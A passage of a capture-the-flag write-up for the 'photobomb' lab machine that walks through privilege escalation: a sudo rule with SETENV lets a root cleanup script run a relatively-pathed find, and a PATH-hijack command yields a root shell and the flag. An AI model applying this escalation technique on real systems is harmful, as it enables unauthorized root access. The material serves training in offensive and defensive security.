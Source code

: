 ## Privilege Escalation

By looking at the sudoers we can see that we can run a script, but we also have the ability to set environment variables

```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    secure_path=/usr/local/bin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$
```

Looking at the script we can see that it uses find relatively and not the absolute path

```
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$

```

We can take advantage of the fact that we can change variables like the path so that it takes us a custom find command, and in the context of sudo our find will run as root

# Congragulations!

this is the command that gives you the root privileges ```sudo PATH=$PWD:$PATH /opt/cleanup.sh```

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:~# id
uid=0(root) gid=0(root) groups=0(root)
root@photobomb:~# hostname -I
10.10.11.182 dead:beef::250:56ff:feb9:240a 
root@photobomb:~# cat /root/root.txt 
344**************************a18
root@photobomb:~#
```
